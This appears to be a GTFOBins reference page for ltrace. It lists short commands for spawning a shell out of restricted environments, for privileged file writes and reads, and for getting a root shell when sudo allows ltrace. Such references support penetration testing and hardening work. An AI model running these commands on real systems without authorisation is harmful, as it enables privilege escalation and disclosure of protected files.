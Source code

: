 # GTFOBin: ltrace

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ltrace -b -L /bin/sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

The data to be written appears amid the library function call log, quoted and with special characters escaped in octal notation. The string representation will be truncated, pick a value big enough. More generally, any binary that executes whatever library function call passing arbitrary data can be used in place of `ltrace -F DATA`.

```
LFILE=file_to_write
ltrace -s 999 -o $LFILE ltrace -F DATA
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file is parsed as a configuration file and its content is shown as error messages, thus this is not suitable to exfiltrate binary files.

```
LFILE=file_to_read
ltrace -F $LFILE /dev/null
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ltrace -b -L /bin/sh
```